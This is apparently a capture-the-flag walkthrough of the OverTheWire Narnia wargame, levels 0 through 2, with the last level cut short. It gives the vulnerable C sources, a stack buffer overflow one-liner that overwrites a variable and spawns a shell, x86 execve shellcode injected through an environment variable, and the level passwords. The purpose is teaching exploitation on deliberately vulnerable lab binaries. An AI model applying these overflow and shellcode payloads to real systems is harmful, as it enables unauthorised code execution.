**>> Details: [https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/)**

> This wargame is for the ones that want to learn basic exploitation. You can see the most
common bugs in this game and we've tried to make them easy to exploit. You'll get the
source code of each level to make it easier for you to spot the vuln and abuse it. The
difficulty of the game is somewhere between Leviathan and Behemoth, but some of the
levels could be quite tricky.

![grafik](https://user-images.githubusercontent.com/84674087/142839640-d5296859-5d88-4d7e-8d83-a703d855b394.png)

<br />
<br />

## Narnia 0

![grafik](https://user-images.githubusercontent.com/84674087/142839936-9a2f374f-9862-45a3-831b-77ca618ca65a.png)

#### Solution
- We check the **source code of narnia0.c**
```
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
- One can immediately spot the limited char buffer, which is assigned to 20 chars
- Moreover, the user input can account for up to 24 chars and is handed over to char buffer
- Let us provide user input with 24 chars to check what's happening
- To do so, we run a one-liner in the terminal with the help of simple python code
   - Option 1): ``` ./script `python -c "print('hello')"` ```
   - Option 2): `python -c "print('hello')" | ./script`
   - Option 3): `(python -c command1 ; command2 ; cat) | ./script`  --> "cat" keeps shell open (!)
- We proceed with Option 2) and adjust the command to our needs
- `python -c "print('C'*24)" | ./narnia0`
- Output:

![grafik](https://user-images.githubusercontent.com/84674087/142843934-579dcfca-d8dc-4fc9-8213-d7673334469e.png)

- We can change val from 0x41414141 (AAAA) to 0x43434343 (CCCC)
- Now we want to write "0xdeadbeef" instead of 0x43434343
- `python -c "print('C'*20 + '\xef\xbe\xad\xde')" | ./narnia0`
- It works ! But we don't see the shell ?!
- Here comes above mentioned Option 3) into the game: We have to keep the shell open with another command like "cat"
- `(python -c "print('C'*20 + '\xef\xbe\xad\xde')"; cat) | ./narnia0`
- We become user narnia1 and do `cat /etc/narnia_pass/narnia1`
- **PASSWORD:** efeidiedae

<br />

## Narnia 1

![grafik](https://user-images.githubusercontent.com/84674087/142846849-81325393-f307-4a49-be4c-4455620f6bec.png)

#### Solution 
- We check the **source code of narnia1.c**:
```
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

- From reading the source code we learn that an empty env-variable EGG returns above shown statement
- The code assigns a value to EGG and below lines gets executed:
    - `ret = getenv("EGG");`: getenv() reads from EGG and the value is assigned to variable "ret"
    - `ret();`: the function ret() is then called
- The principle of function `getenv()`: 
    - Retrieve C-string containing the value of the environment variable
    - If there is no variable, the function returns a null pointer
- To assign a value to EGG we enter following code snippet: `export EGG=aaa`
- What happens?

![grafik](https://user-images.githubusercontent.com/84674087/142911641-1d5cb406-b5d2-46ff-be98-92e09b5105e0.png)

- A segmentation fault can occur from:
    - accessing memory without having permission
    - accessing memory that is already reallocated or freed
    - accessing memory where the used index is out of boundary
- We can look behind the scences of narnica1.c with gdb, in order to get a better understanding of what's going on
- `gdb ./narnia1`
- `disass main`

![grafik](https://user-images.githubusercontent.com/84674087/142912054-35d82f97-17dc-4523-91b9-810853e22c9e.png)

- At memory address "0x080484a8" the function getenv() is called
- At memory address "0x080484b6" the function finally calls the register eax
- Let's check the content of eax at this point
- `break *0x080484b6` (set breakpoint)
- `run`
- `x/10x $eax` (dump 10 blocks of eax in hex-format)

![grafik](https://user-images.githubusercontent.com/84674087/142912424-1006195b-63a1-4f72-a8ef-0d06ffc490c9.png)

- At memory address "0xffffdea8" the first hex block states "0x00616161" which must be the "aaa" we assigned to EGG previously (hex 0x61 = ASCII a)
- Most probably we have to assign specific shellcode to EGG
- Our goal is to directly read `/etc/narnia_pass/narnia2` or create a shell with narnia2-rights
- Remember: narnia1.c is running as EUID narnia2
- To make our life easier we take a look at: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)
- To determine the OS for the shellcode we run `uname -a`: GNU/Linux x86_64
- So, shellcode for x86_64 and x86 should be at our disposal
- After some trial & error we evaluate this code as helpful: "Linux/x86 - polymorphic execve by Jonathan Salwan" [Shellcode 607](http://shell-storm.org/shellcode/files/shellcode-607.php)
- We tune our final code:

```
export EGG=`python -c "print('\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81')"`
```

![grafik](https://user-images.githubusercontent.com/84674087/142910004-d18af460-15ec-462e-b406-5d5993979c90.png)

- **PASSWORD:** nairiepecu

<br />

## Narnia 2

#### Solution
- Let's check the source code:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

- The function **strcpy**: `char * strcpy ( char * destination, const char * source );`
- It copies the C string pointed by source (**argv[1]**) into the array pointed by destination (**buf**), including the terminating null character


<br />
